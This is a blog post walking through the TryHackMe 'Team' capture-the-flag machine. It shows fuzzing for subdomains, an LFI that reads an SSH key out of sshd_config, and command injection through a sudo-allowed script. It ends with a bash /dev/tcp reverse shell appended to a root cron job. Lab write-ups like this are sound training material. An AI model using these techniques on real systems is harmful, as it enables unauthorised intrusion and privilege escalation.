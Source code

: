 ```yaml
---
layout: post
title:  "THM: Team"
date:   2021-03-06 12:00:00 +1100
category: hacking
---
```


## Team
*Beginner friendly boot2root machine*  
*It is aimed at beginners as I often see boxes that are "easy" but are often a bit harder!*

Whilst not difficult by any means, I still think this one will trip a few noobs up. This is [Team](https://tryhackme.com/room/teamcw) from THM.

## Ports
FTP, SSH and HTTP; the *triumvirate*.

## FTP
No anon access; moving on. Actually let's stay here for a bit. This box had a whole series of breadcrumbs I guess the creator thought you would follow; I circumvented quite a bit at the start and that includes the part involving FTP. But we can discuss it anyway - I do need to skip around a bit though. 

If we go to the IP for the page in a browser, we get the Apache default page and in the page source we get:

>If you see this add 'team.thm' to your hosts!

So if we do that we get an extra page. If you go gobusting or whatever, you can find this page: http://team.thm/scripts/script.txt, and it contains (amongst other things) this line:

># Note to self had to change the extension of the old "script" in this folder, as it has creds in

So if we go to http://team.thm/scripts/script.old we can get the old version which contains credentials, which we can use to login to FTP. If we do that, we can get a file with these contents:

>Dale
I have started coding a new website in PHP for the team to use, this is currently under development. It can be found at ".dev" within our domain.  
Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.  
Gyles 

Right, so we've got two users (Dale and Gyles), a *dev* subdomain and a copy of an SSH key. Well, I missed *all* of this.

## HTTP
There is a hint on the THM room page:

>As the "dev" site is under contruction maybe it has some flaws? "url?=" + "This rooms picture"

So we know there is a *dev* subdomain. Or we can find it easily by fuzzing:

``
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" -t 42 --hh 11366
``

>000000019:   200        9 L      20 W       187 Ch      "dev"     

We add this to /etc/hosts and have a look; we've got an easily exploited LFI; e.g.

``
http://dev.team.thm/script.php?page=/home/ftpuser/.profile
``

Now bear in mind that I had skipped the FTP part so I didn't know I was specifically looking for an ssh key in a config file, although I certainly tried looking in /home/dale/.ssh and /home/gyles/.ssh; there are no keys there. I was expecting possibly log poisoning at this point, so I tried reading the logs for *apache*, *vsftpd*, *auth* etc. Nothing. No /proc/self/environ, no mail, nada. 

Eventually I user Burp Turbo Intruder on a big list of linux files and found the target - http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

For some reason, this file contains a copy of the SSH private key for *dale*; who knows why that would be the case. Anyway; onwards.

## On the box
We SSH in as dale, no problem. What can he do?

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/team]
└─# ssh -i dale_key dale@team.thm 
Warning: Permanently added the ECDSA host key for IP address '10.10.125.28' to the list of known hosts.
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
{% endhighlight %}

And what is that?

{% highlight shell %}
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
{% endhighlight %}

Alright. This took me a bit to figure out but on:

>read -p "Enter 'date' to timestamp the file: " error 

Whatever is entered is executed as a command. To exploit:

{% highlight shell %}
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: doesnt matter
Enter 'date' to timestamp the file: sh
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python3 -c 'import pty;pty.spawn("/bin/bash");'
gyles@TEAM:~$ id;hostname
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
TEAM
{% endhighlight %}

## Root
I run linpeas as gyles and it screams at me about */usr/local/bin*. Here we have a writeable script running as a root cron. Nice.

{% highlight shell %}
gyles@TEAM:/usr/local/bin$ ls -lash
total 12K
4.0K drwxrwxr-x  2 root admin 4.0K Jan 17 20:36 .
4.0K drwxr-xr-x 10 root root  4.0K Jan 15 19:49 ..
4.0K -rwxrwxr-x  1 root admin   65 Jan 17 20:36 main_backup.sh
gyles@TEAM:/usr/local/bin$ cat main_backup.sh 
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
gyles@TEAM:/usr/local/bin$ printf 'bash -i >& /dev/tcp/10.9.10.123/1234 0>&1\n' >> main_backup.sh
gyles@TEAM:/usr/local/bin$ cat main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
bash -i >& /dev/tcp/10.9.10.123/1234 0>&1
{% endhighlight %}

And with a listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/team]
└─# nc -nvlp 1234                                                                                             
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.225.48] 58140
bash: cannot set terminal process group (17582): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# cd /root
cd /root
root@TEAM:~# ls -lash
ls -lash
total 52K
4.0K drwx------  6 root root 4.0K Jan 17 19:28 .
4.0K drwxr-xr-x 23 root root 4.0K Jan 15 19:51 ..
8.0K -rw-------  1 root root 7.0K Jan 21 19:20 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  2 root root 4.0K Jan 15 22:10 .cache
4.0K drwx------  4 root root 4.0K Jan 15 22:18 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Jan 15 20:30 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   18 Jan 15 21:26 root.txt
4.0K -rw-r--r--  1 root root   66 Jan 17 16:07 .selected_editor
4.0K drwx------  2 root root 4.0K Jan 15 20:00 .ssh
   0 -rw-r--r--  1 root root    0 Jan 16 22:42 .sudo_as_admin_successful
4.0K -rw-r--r--  1 root root  215 Jan 17 14:57 .wget-hsts
{% endhighlight %}

Done. It never ceases to amaze how every single time a new challenge is released someone is asking for hints on the discord almost immediately, even though every new challenge has a 3 day embargo on hints. If this applies to you, have a good hard look at yourself.
